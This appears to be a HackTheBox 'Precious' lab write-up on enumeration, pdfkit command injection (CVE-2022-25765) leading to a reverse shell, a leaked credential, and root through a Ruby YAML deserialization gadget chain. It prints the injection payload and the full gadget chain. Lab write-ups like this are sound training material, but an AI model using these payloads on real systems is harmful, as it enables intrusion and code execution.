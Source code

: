 ```yaml
---
title: "Precious"
date: 23-03-2025
categories: [Linux, Linux Easy]
tags: [Easy, Ruby, Deserialization, RCE, CVE, PDF]
image: https://labs.hackthebox.com/storage/avatars/3adcfd6093f8ddb4dffe8422da6377c8.png
---
```


This machine was quite hard for me. I learned a lot about exploiting ruby data serialization  and finding information inside of pdf files with `exiftool`.

![precious_info_card](/assets/images/precious/Precious.png)

## Enumeration

This machine only has two ports open as shown by the `nmap` scan below
```
# Nmap 7.94SVN scan initiated Sat Mar 15 09:54:17 2025 as: nmap -p22,80 -sCV -Pn -n -oN nmap/precious 10.10.11.189
Nmap scan report for 10.10.11.189
Host is up (0.016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 15 09:54:24 2025 -- 1 IP address (1 host up) scanned in 7.01 seconds
```

The webpage is redirecting us to `http://precious.htb` we can add this to our hosts file and we can now visit the website. The webpage seems very straightforward, it simply takes in a **url** and produces a pdf file with the contents of that website. I ran `fuff` to identify different virtual hosts or directories but there were none therefore the only vector of exploitation is this pdf generator. 

![prcious](/assets/images/precious/Pasted image 20250315095622.png)

The first thing that I tried was inputting a valid website like `nike.com` but that did not work. Following that I set up a listener on port 80 and placed my own IP address to see if I get a connect.  `http://10.10.14.27`

```
sudo nc -lvnp 80
[sudo] password for madaf: 
listening on [any] 80 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.189] 59318
GET / HTTP/1.1
Host: 10.10.14.27
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) wkhtmltopdf Version/10.0 Safari/602.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
```

Following this I tried setting up my own webpage with a simple python script which I used to test the pdf generator. It could print the simple website I generated. I tried using some common file disclosure payloads that are commonly used for pdf generators to try to get files such as `/etc/passwd` but none seemed to work. 

#### PDF Generator libraries

I decided to check `wappalizer` and saw that the website was using Phusion Passenger 6.0.15. Which has support for different languages like Python and Ruby. I decided to intercept a request I made to my own page and saw the following in the headers:

```
HTTP/1.1 200 OK
Content-Type: application/pdf
Content-Length: 4595
Connection: keep-alive
Status: 200 OK
Content-Disposition: attachment; filename="wutmohqrq8opdks6kapw1gukbefusdim.pdf"
Last-Modified: Sat, 15 Mar 2025 11:18:30 GMT
X-Content-Type-Options: nosniff
Date: Sat, 15 Mar 2025 11:18:30 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
```

We can see that `X_Runtime` indicates that the website is using Ruby as the language. I downloaded of the the pdf's the website generated and used `exiftool` to examine the pdf metadata:

```
ExifTool Version Number         : 12.57
File Name                       : almtmnf8bywbjqzinc8ehve2fjjim6io.pdf
Directory                       : /home/madaf/Downloads
File Size                       : 12 kB
File Modification Date/Time     : 2025:03:15 12:01:03+01:00
File Access Date/Time           : 2025:03:15 12:01:03+01:00
File Inode Change Date/Time     : 2025:03:15 12:01:03+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

We can clearly see that the file was generated using the `pdfkit` library with version `0.8.6` a quick google search indicates that this version is vulnerable to remote code execution. 

## Foothold

The aforementioned vulnerability is [CVE-2022-25765](https://www.exploit-db.com/exploits/51293) . We can quickly check if its vulnerable by inputting this payload into the url field: `http://test.local/%20 ping 10.10.14.27 -c 20` We can now use `tcpdump` to try to see if we get ping requests.

```
sudo tcpdump -i tun0
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:09:03.420024 IP 10.10.14.27.55850 > precious.htb.http: Flags [.], ack 2219377380, win 492, options [nop,nop,TS val 2661141076 ecr 3767220373], length 0
13:09:03.433761 IP precious.htb.http > 10.10.14.27.55850: Flags [.], ack 1, win 501, options [nop,nop,TS val 3767230404 ecr 2661090882], length 0
13:09:08.935335 IP 10.10.14.27.55850 > precious.htb.http: Flags [P.], seq 1:578, ack 1, win 492, options [nop,nop,TS val 2661146591 ecr 3767230404], length 577: HTTP: POST / HTTP/1.1
13:09:08.951009 IP precious.htb.http > 10.10.14.27.55850: Flags [.], ack 578, win 501, options [nop,nop,TS val 3767235922 ecr 2661146591], length 0
13:09:08.957799 IP precious.htb > 10.10.14.27: ICMP echo request, id 13907, seq 1, length 64
13:09:08.957814 IP 10.10.14.27 > precious.htb: ICMP echo reply, id 13907, seq 1, length 64
13:09:09.956038 IP precious.htb > 10.10.14.27: ICMP echo request, id 13907, seq 2, length 64
```

We see the post request and following that we see the pings being sent to our IP. This verifies that we have command execution and we can now use [this](https://github.com/UNICORDev/exploit-CVE-2022-25765?) exploit to give us a reverse shell back to our machine.  We get a reverse shell as the user `ruby`.


## Privilege Escalation

We land on the webpage's directory which contains some configuration files but nothing too interesting. I take a look at the home directory and I find that there is one more user, `henry` I also check my own home directory and after a `ls -la` I find a hidden file that contains credentials to that user. 

```
ruby@precious:/home/ruby$ cd .bundle
ruby@precious:/home/ruby/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
#### Gaining Root Access

With this new user we are able to run `/usr/bin/ruby /opt/update_dependencies.rb` as root without password. Since the binaries listed have full paths there is not much we can do regarding path abuses but we can take a look inside `/opt/update_dependencies.rb` one common privilege escalation method in this cases is finding a binary inside the executable that does not use absolute paths, this way we can include our own malicious code and execute it as root. 

Inside of `/opt/update_dependencies.rb` the only file without an absolute path is `dependencies.yml` which gets deserialized using `YAML.load(File.read())` 

```ruby
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
```

I got stuck here trying to find a payload that would work to grant me root access. I was told to use the following [github repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md) as reference. Using the second payload I was able to read the root flag.

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cat root/root.txt
         method_id: :resolve
```